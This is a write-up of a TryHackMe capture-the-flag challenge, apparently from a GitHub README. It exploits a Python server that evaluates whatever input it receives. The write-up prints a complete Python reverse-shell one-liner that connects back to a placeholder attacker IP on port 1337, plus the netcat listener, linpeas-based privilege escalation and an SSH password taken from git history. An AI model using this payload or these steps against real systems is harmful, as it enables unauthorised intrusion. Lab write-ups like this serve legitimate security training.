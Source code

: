 # Fun
.Solving an easy challenge on tryhackme.com

![test1](images/1.png)
![test2](images/2.png)

**The challenge is to hack into a python server that when receiving a GET request from a client runs some of the content of that request as an input for the python interpreter running in the server.**

So the first step is to deploy the challenge machine in the tryhackme platform, we get the challenge machine ip address as 10.201.65.80, this is an ip from a private network, so we connect to the network of the tryhackme platform using the command 
`sudo openvpn Downloads/user.ovpn` after we ping the target so we can see that we have access to the target
`ping 10.201.65.80`

![test3](images/3.png)

After seeing that we are in fact into the network  we run nmap to scan the target with the `-sV` flag to enumerate the version of the sotware running in the ports of the server. `nmap -sV 10.201.65.80` 

![test4](images/4.png)

Nmap return that the target server is running ssh in port 22 and a http server in port 8000. As in the premises of the challenge is very straight forward where to look, i'm not gonna try to bruteforce the ssh and focus in the server as the foothold point.

We see that the http server is using the simplehttp python. the command to start running this kind of server in your machine is a derivation of `python3 -m http.server PORT_TO_RUN` and the fingerprint string of the responde of the http is returning error about an object not defined in the request. When access the http service in port 8000 in a browser we receive a html file saying *Try a more basic connection!*

![test5](images/5.png)

So we connect using netcat a swiss army knife to handling basic network connections, we use the command
`nc 10.201.65.80 8000` (i lost the screenshot but when you connect via netcat all you type in the terminal is run by a python interpreter, so if i typed `hello` it would return `NameError: name 'hello' is not defined.`
and when typed `print("hello")` we receive *hello* as response. **Then we can conclude that this is the remote code execution flaw of the server, we can exploit this to execute arbitrary code into the server machine**.

We use a reverse shell cheat sheet online to look an one line python code to make the server spawn a shell and connects to our machine (REVERSE SHELL) writing `import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("OUR_MACHINE_IP",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")` into the netcat connection with the target as is running a get request as python code. This code will make the server connects to our machine and connect an interactive shell of the server into our machine by port 1337, so we set our machine to listen to connections in port 1337 by using `nc -lvnp 1337` (-l is listen, -v verbone, -p port and -n no dns resolution).

![text6](images/6.png)

In the nc -lvnp 1337 we receive a connection from 10.201.92.41 (our target address) and a **$** which means a input for shell, when we run `id` into this shell we received in port 1337 the output is **www-data** which is the user responsible for the http server, so we are inside the target server and running code as www-date user, which is a very low priveleged user in the target system, the next step is to realize a **privilege escalation** to achieve root into the target system, owning the target. So we have access to the target server but with the user www-data (It is not showed by the photos, but in my machine i runned a simple http server by `python3 -m http.server PORT` to connect via the victim's machine and get the linpeas.sh program inside the target server, linpeas.sh *(https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS/README.md)* is a program to find privilege escalation and it returned us the existence of `/opt/dev/.git`)

![text7](images/7.png)
![text8](images/b.png)
With the user think and the password __TH1NKINGPirate$__ we can connect to the target via ssh using the think user
![text9](images/c.png)
![text10](images/d.png)
![text11](images/e.png)

Exploring the .git folder we find that the last commit and we can see a little bit of the python backend code running in the server

![text12](images/77].png)
![text13](images/code.png)

In the python code we see that if the data == 'some_endpoint': then a function get_this_endpoint will be called. So we need to bruteforce to find the endpoint, we achieve this creating a .py script that bruteforce for endpoints after connecting to the server that is

![text](images/11.png)

After this we discover the admin endpoint evoke a password input and we need to bruteforce the password by the same method and we are in with a root shell

![text14](images/12.png)
![text15](images/13.png)
![text16](images/14.png)
